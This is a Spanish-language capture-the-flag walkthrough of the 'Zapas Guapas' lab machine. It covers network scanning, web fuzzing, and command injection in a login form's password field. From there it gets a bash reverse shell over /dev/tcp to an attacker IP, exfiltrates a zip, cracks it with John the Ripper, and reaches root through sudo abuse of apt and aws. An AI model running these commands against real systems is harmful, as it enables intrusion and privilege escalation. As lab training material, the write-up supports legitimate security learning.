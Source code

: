 # Zapas Guapas

Maquinas que vamos a utilizar **Kali Linux y Zapas Guapas** [https://thehackerslabs.com/zapas-guapas/](https://thehackerslabs.com/zapas-guapas/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2048.png)

```bash
ping -c 1 10.0.3.28
```

![image.png](./imagenes/image%2049.png)

Es una maquina Linux

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.28
```

![image.png](./imagenes/image%2050.png)

`22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`

`80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))`

- Miramos lo que correo en el puerto 80 con el navegador web
    
    ![image.png](./imagenes/image%2051.png)
    

- Hacemos Fuzzing web
    
    ```bash
    gobuster dir -u http://10.0.3.28/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,sh,html,txt
    ```
    
    ![image.png](./imagenes/image%2052.png)
    
- Vamos a probar con `login.html`
    
    ![image.png](./imagenes/image%2053.png)
    
- Miramos el código
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%2054.png)
    
    Hay un comentario curioso. Que indica que se ejecutaran comandos en la casilla contraseña. Lo probamos.
    
    ![image.png](./imagenes/image%2055.png)
    
    ![image.png](./imagenes/image%2056.png)
    
- Probamos a ejecutar una reverse shell . [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
    
    ![image.png](./imagenes/image%2057.png)
    
    `sh -i >& /dev/tcp/10.0.3.4/444 0>&1`
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    - Nos ponemos a la escucha en el puerto 444 con netcat
        
        ```bash
        nc -nlvp 444 
        ```
        
        ![image.png](./imagenes/image%2058.png)
        
    - Ejecutamos el comando en el formulario de login. `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1”`
        
        ![image.png](./imagenes/image%2059.png)
        
        ![image.png](./imagenes/image%2060.png)
        
        Ya tenemos acceso
        
        - Vamos a empezar el tratamiento de la TTY .
        - Escribimos el siguiente comando  y veremos que adquirimos un prompt.
            
            `script /dev/null -c bash`
            
            ![image.png](./imagenes/image%2061.png)
            
        - Hacemos un **`CTRL+Z`**
            
            ![image.png](./imagenes/image%2062.png)
            
        
        - Escribimos a continuación.
            
            `stty raw -echo; fg`
            
            ![image.png](./imagenes/image%2063.png)
            
        
        - Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.
            
            ![image.png](./imagenes/image%2064.png)
            
        
        - Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
            
            `export TERM=xterm`
            
            `export SHELL=bash`
            
            ![image.png](./imagenes/image%2065.png)
            
            **Ya nos aceptaría los comandos que antes no lo hacia**.
            
        - Investigando por la maquina he encontrado en la carpeta **/opt** un archivo **importante.zip.** Lo vamos a llevarlo a nuestra maquina Kali**.**
            
            ![image.png](./imagenes/image%2066.png)
            
            - En la maquina victima creamos un servidor web por el puerto 8080
                
                `python3 -m http.server 8080`
                
                ![image.png](./imagenes/image%2067.png)
                
            
            - En nuestra Kali llamamos al archivo para descargarlo
                
                ```bash
                wget [http://10.0.3.28:8080/importante.zip](./imagenes/http://10.0.3.28:8080/importante.zip)
                ```
                
                ![image.png](./imagenes/image%2068.png)
                
        
        - Intentamos descomprimir el archivo pero esta protegido por contraseña.
            
            ![image.png](./imagenes/image%2069.png)
            
        
        - Hacemos un ataque de fuerza bruta con **John The Ripper** .
            
            ```bash
            zip2john importante.zip > hash
            ```
            
            ![image.png](./imagenes/image%2070.png)
            
            ```bash
            john --wordlist=/usr/share/wordlists/rockyou.txt hash 
            ```
            
            ![image.png](./imagenes/image%2071.png)
            
            **Contraseña del archivo: `hotstuff`**
            
        - Descomprimimos el archivo y miramos el contenido.
            
            ```bash
            unzip importante.zip 
            ```
            
            ```bash
            cat password.txt
            ```
            
            ![image.png](./imagenes/image%2072.png)
            
            **Contraseña de pronike: `pronike11`**
            
        - Nos cambiamos de usuario a **pronike**
            
            `su pronike`
            
            ![image.png](./imagenes/image%2073.png)
            
        
        - Listamos privilegios para ver los permisos **sudo -l**
            
            `sudo -l`
            
            ![image.png](./imagenes/image%2074.png)
            
        - Investigamos en **[https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
            
            ![image.png](./imagenes/image%2075.png)
            
        - Usamos la primera opcion: **sudo apt changelog apt,** pero modificándola para la ejecute en nombre del usuario proadidas como indica el listado **sudo -l.**
            
            `sudo -u proadidas apt changelog apt`
            `!/bin/sh`
            
            ![image.png](./imagenes/image%2076.png)
            
            ![image.png](./imagenes/image%2077.png)
            
            ![image.png](./imagenes/image%2078.png)
            
        - Volvemos a Listar privilegios para ver los permisos **sudo -l**
            
            `sudo -l`
            
            ![image.png](./imagenes/image%2079.png)
            
            ![image.png](./imagenes/image%2080.png)
            
        
        - Probamos
            
            `sudo -u root aws help`
            `!/bin/sh`
            
            ![image.png](./imagenes/image%2081.png)
            
            ![image.png](./imagenes/image%2082.png)
            
            `whoami`
            
            ![image.png](./imagenes/image%2083.png)
            
        - Hacemos un TTY basico
            
            `script /dev/null -c bash`
   